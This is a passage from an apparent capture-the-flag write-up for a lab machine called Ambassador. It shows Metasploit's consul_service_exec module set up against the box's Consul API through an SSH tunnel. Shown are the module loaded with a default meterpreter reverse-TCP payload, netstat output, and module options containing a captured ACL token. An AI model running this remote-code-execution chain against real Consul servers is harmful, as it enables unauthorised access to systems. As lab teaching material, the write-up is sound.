 
### MSF Alternative

There is a metasploit exploit for this same version of Consul. I’ll run
`msfconsole`, and then `use` it:

    
    
    msf6 > use multi/misc/consul_service_exec
    [*] Using configured payload linux/x86/meterpreter/reverse_tcp
    msf6 exploit(multi/misc/consul_service_exec) > 
    

The default `RPORT` is 8500 (also listed in [the
docs](https://developer.hashicorp.com/consul/docs/install/ports)), which is
the Consul API, and is listening on Ambassador:

    
    
    developer@ambassador:~$ netstat -tnlp                 
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                   
    ...[snip]...
    

I’ll use my SSH session to create a tunnel listening on 8500 on my host
forwarding through the SSH session to 8500 on Ambassador (`-L
8500:localhost:8500`). After configuring the exploit, it looks like this:

    
    
    msf6 exploit(multi/misc/consul_service_exec) > options
    
    Module options (exploit/multi/misc/consul_service_exec):
    
       Name       Current Setting                       Required  Description
       ----       ---------------                       --------  -----------
       ACL_TOKEN  bb03b43b-1d81-d62b-24b5-39540ee469b5  no        Consul Agent ACL token
                  
       Proxies                                          no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS     127.0.0.1                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
       RPORT      8500                                  yes       The target port (TCP)
       SRVHOST    0.0.0.0                               yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
       SRVPORT    8080                                  yes       The local port to listen on.
       SSL        false                                 no        Negotiate SSL/TLS for outgoing connections
       SSLCert                                          no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI  /                                     yes       The base path
       URIPATH                                          no        The URI to use for this exploit (default is random)
       VHOST                                            no        HTTP server virtual host
    